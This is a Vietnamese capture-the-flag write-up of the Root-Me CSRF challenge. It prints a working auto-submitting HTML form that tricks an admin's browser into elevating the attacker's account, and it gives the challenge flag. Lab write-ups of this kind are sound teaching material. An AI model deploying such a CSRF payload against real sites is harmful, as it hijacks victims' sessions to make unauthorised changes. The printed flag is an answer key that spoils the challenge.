 # Challenge: CSRF - token bypass
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 10 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection

- Bắt đầu vào thử thách, ta tạo tài khoản và đăng nhập, khi truy cập trang profile. Khi cố gắng gởi thay đổi thông tin status(chỉnh sửa mã nguồn) và submit tuy nhiên ta sẽ nhận được thông báo. "You're not a admin!"
<p align="center"><img src="./images/10.1.png"></p>
- Với trang contact thì ta có quyền submit. Với bài CSRF, ta sẽ tiến hành gởi form lên cho admin để admin thay ta gởi request tới server.
<p align="center"><img src="./images/10.2.png"></p>
- Do đó ta sẽ có ý tưởng gởi form profile cho admin, với các giá trị được đặt sẵn, với trường username là abc, và status là checked
<p align="center"><img src="./images/10.3.png"></p>
<p align="center"><img src="./images/10.4.png"></p>
- Sửa đổi một chút, ta chỉ cần những thẻ cần thiết, ngoài ra cần cho nó tự submit form nên ta sẽ dùng thêm thẻ script. và đặt id cho form để có thể lấy form và submit tự động.

```
<form id="form" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
    <input type="text" name="username" value="abc">
    <input type="checkbox" name="status" checked >
    <button type="submit">Submit</button>
</form>
<script>document.getElementById("form").submit(); </script>
```

- Nộp đoạn mã trên vào form contact.
<p align="center"><img src="./images/10.5.png"></p>
- Sau một lúc ta vào trang private thì lúc này ta đã được quyền truy cập, ta nhận được flag ở đây 
<p align="center"><img src="./images/10.6.png"></p>

## Kết quả flag là `Csrf_Fr33style-L3v3l1!`